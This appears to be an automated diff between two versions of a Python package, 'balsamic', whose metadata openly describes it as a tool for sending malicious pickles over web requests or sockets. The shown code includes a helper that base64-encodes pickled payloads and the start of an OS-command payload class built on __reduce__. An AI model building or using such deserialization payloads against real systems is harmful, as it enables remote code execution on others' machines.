 # Comparing `tmp/balsamic-0.1.93.tar.gz` & `tmp/balsamic-0.1.94.tar.gz`

## filetype from file(1)

```diff
@@ -1 +1 @@
-gzip compressed data, was "balsamic-0.1.93.tar", last modified: Sat May 18 02:57:28 2024, max compression
+gzip compressed data, was "balsamic-0.1.94.tar", last modified: Sat May 18 02:58:58 2024, max compression
```

## Comparing `balsamic-0.1.93.tar` & `balsamic-0.1.94.tar`

### file list

```diff
@@ -1,15 +1,15 @@
-drwxr-xr-x   0 witchdoc  (1000) witchdoc  (1001)        0 2024-05-18 02:57:28.765761 balsamic-0.1.93/
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     2139 2024-05-18 02:57:28.765761 balsamic-0.1.93/PKG-INFO
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     1604 2024-05-17 23:29:20.000000 balsamic-0.1.93/README.md
-drwxr-xr-x   0 witchdoc  (1000) witchdoc  (1001)        0 2024-05-18 02:57:28.765761 balsamic-0.1.93/balsamic/
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        1 2024-05-17 19:32:39.000000 balsamic-0.1.93/balsamic/__innit__.py
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     2226 2024-05-18 02:50:42.000000 balsamic-0.1.93/balsamic/__main__.py
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     1760 2024-05-18 02:57:03.000000 balsamic-0.1.93/balsamic/balsamic.py
-drwxr-xr-x   0 witchdoc  (1000) witchdoc  (1001)        0 2024-05-18 02:57:28.765761 balsamic-0.1.93/balsamic.egg-info/
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     2139 2024-05-18 02:57:28.000000 balsamic-0.1.93/balsamic.egg-info/PKG-INFO
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)      241 2024-05-18 02:57:28.000000 balsamic-0.1.93/balsamic.egg-info/SOURCES.txt
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        1 2024-05-18 02:57:28.000000 balsamic-0.1.93/balsamic.egg-info/dependency_links.txt
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        9 2024-05-18 02:57:28.000000 balsamic-0.1.93/balsamic.egg-info/requires.txt
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        9 2024-05-18 02:57:28.000000 balsamic-0.1.93/balsamic.egg-info/top_level.txt
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)       38 2024-05-18 02:57:28.765761 balsamic-0.1.93/setup.cfg
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     1144 2024-05-18 02:57:07.000000 balsamic-0.1.93/setup.py
+drwxr-xr-x   0 witchdoc  (1000) witchdoc  (1001)        0 2024-05-18 02:58:58.342959 balsamic-0.1.94/
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     2139 2024-05-18 02:58:58.342959 balsamic-0.1.94/PKG-INFO
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     1604 2024-05-17 23:29:20.000000 balsamic-0.1.94/README.md
+drwxr-xr-x   0 witchdoc  (1000) witchdoc  (1001)        0 2024-05-18 02:58:58.342959 balsamic-0.1.94/balsamic/
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        1 2024-05-17 19:32:39.000000 balsamic-0.1.94/balsamic/__innit__.py
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     2226 2024-05-18 02:50:42.000000 balsamic-0.1.94/balsamic/__main__.py
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     1761 2024-05-18 02:58:30.000000 balsamic-0.1.94/balsamic/balsamic.py
+drwxr-xr-x   0 witchdoc  (1000) witchdoc  (1001)        0 2024-05-18 02:58:58.342959 balsamic-0.1.94/balsamic.egg-info/
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     2139 2024-05-18 02:58:58.000000 balsamic-0.1.94/balsamic.egg-info/PKG-INFO
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)      241 2024-05-18 02:58:58.000000 balsamic-0.1.94/balsamic.egg-info/SOURCES.txt
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        1 2024-05-18 02:58:58.000000 balsamic-0.1.94/balsamic.egg-info/dependency_links.txt
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        9 2024-05-18 02:58:58.000000 balsamic-0.1.94/balsamic.egg-info/requires.txt
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        9 2024-05-18 02:58:58.000000 balsamic-0.1.94/balsamic.egg-info/top_level.txt
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)       38 2024-05-18 02:58:58.342959 balsamic-0.1.94/setup.cfg
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     1144 2024-05-18 02:58:34.000000 balsamic-0.1.94/setup.py
```

### Comparing `balsamic-0.1.93/PKG-INFO` & `balsamic-0.1.94/PKG-INFO`

 * *Files 1% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: balsamic
-Version: 0.1.93
+Version: 0.1.94
 Summary: Send malicious pickles via requests or sockets
 Author: Witchdoctor (malectrica)
 Keywords: python,hack,pickle,serialization,security,sockets,web
 Classifier: Development Status :: 5 - Production/Stable
 Classifier: Intended Audience :: Developers
 Classifier: Programming Language :: Python :: 3
 Classifier: Operating System :: Unix
```

### Comparing `balsamic-0.1.93/README.md` & `balsamic-0.1.94/README.md`

 * *Files identical despite different names*

### Comparing `balsamic-0.1.93/balsamic/__main__.py` & `balsamic-0.1.94/balsamic/__main__.py`

 * *Files identical despite different names*

### Comparing `balsamic-0.1.93/balsamic/balsamic.py` & `balsamic-0.1.94/balsamic/balsamic.py`

 * *Files 5% similar despite different names*

```diff
@@ -7,15 +7,15 @@
 class utility:
 	command=""
 
 	def b64pickle(payload):
 		p=getattr(payloads,payload)
 		p=base64.b64encode(pickle.dumps(p()))
 		return p
-	def plainpickle(payload)
+	def plainpickle(payload):
 		p=getattr(payloads,payload)
 		p=p.encode("utf-8")
 		return p
 
 class payloads:
 	class oscmd:
 		def __reduce__(self):
```

### Comparing `balsamic-0.1.93/balsamic.egg-info/PKG-INFO` & `balsamic-0.1.94/balsamic.egg-info/PKG-INFO`

 * *Files 1% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: balsamic
-Version: 0.1.93
+Version: 0.1.94
 Summary: Send malicious pickles via requests or sockets
 Author: Witchdoctor (malectrica)
 Keywords: python,hack,pickle,serialization,security,sockets,web
 Classifier: Development Status :: 5 - Production/Stable
 Classifier: Intended Audience :: Developers
 Classifier: Programming Language :: Python :: 3
 Classifier: Operating System :: Unix
```

### Comparing `balsamic-0.1.93/setup.py` & `balsamic-0.1.94/setup.py`

 * *Files 10% similar despite different names*

```diff
@@ -3,15 +3,15 @@
 import os
 
 here = os.path.abspath(os.path.dirname(__file__))
 
 with codecs.open(os.path.join(here, "README.md"), encoding="utf-8") as fh:
     long_description = "\n" + fh.read()
 
-VERSION = '0.1.93'
+VERSION = '0.1.94'
 DESCRIPTION = 'Send malicious pickles via requests or sockets'
 LONG_DESCRIPTION = 'A package that allows the user to easily send out malicious pickles, via web requests, or a malicious server or client(currently ipv4 only)'
 
 # Setting up
 setup(
     name="balsamic",
     version=VERSION,
```

